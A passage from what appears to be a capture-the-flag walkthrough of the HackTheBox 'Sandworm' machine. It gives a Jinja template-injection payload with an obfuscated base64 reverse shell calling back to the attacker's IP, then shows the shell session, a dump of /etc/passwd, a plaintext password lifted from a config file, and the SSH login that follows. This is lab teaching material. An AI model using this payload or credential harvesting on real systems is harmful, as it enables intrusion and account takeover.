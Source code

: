 Second, let's build or payload so we can exploit Jinja via `gpg`:
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzU1NTU1IDA+JjE= | base64 -d | bash" ').read() }} `

Third, now we add a new `uid` into our PGP Key, we export the pub key, we generate a dummy signed text and we try to validate the Signature.

{{< limg "/i/2023-08-10_20-09.png" "Injection" >}}
{{< limg "/i/2023-08-10_20-10.png" "Injection" >}}

You will notice the page will hang, that means we've got it:
```bash
z➤ nc -lvnp 55555
Connection from 10.10.11.218:60890
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
/usr/local/sbin/lesspipe: 1: dirname: not found
atlas@sandworm:/var/www/html/SSA$ id
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)
atlas@sandworm:/var/www/html/SSA$

atlas@sandworm:/var/www/html/SSA$ cat /etc/passwd
cat /etc/passwd
...
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
silentobserver:x:1001:1001::/home/silentobserver:/bin/bash
atlas:x:1000:1000::/home/atlas:/bin/bash
```

This user didn't have the flag, I was not even able to use `find` commmand, I got "Command not found" all the time. This `atlas` user had this file with credentials for the user we saw in the `/etc/passwd` file, `silentobserver`:

```bash
atlas@sandworm:~$ cat .config/httpie/sessions/localhost_5000/admin.json

cat .config/httpie/sessions/localhost_5000/admin.json
{
    "__meta__": {
        "about": "HTTPie session file",
        ...
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
...
```

SSHing:
```bash
~➤ ssh silentobserver@ssa.htb
...
Last login: Mon Jun 12 12:03:09 2023 from 10.10.14.31
silentobserver@sandworm:~$ ls
user.txt
silentobserver@sandworm:~$ id
uid=1001(silentobserver) gid=1001(silentobserver) groups=1001(silentobserver)
```
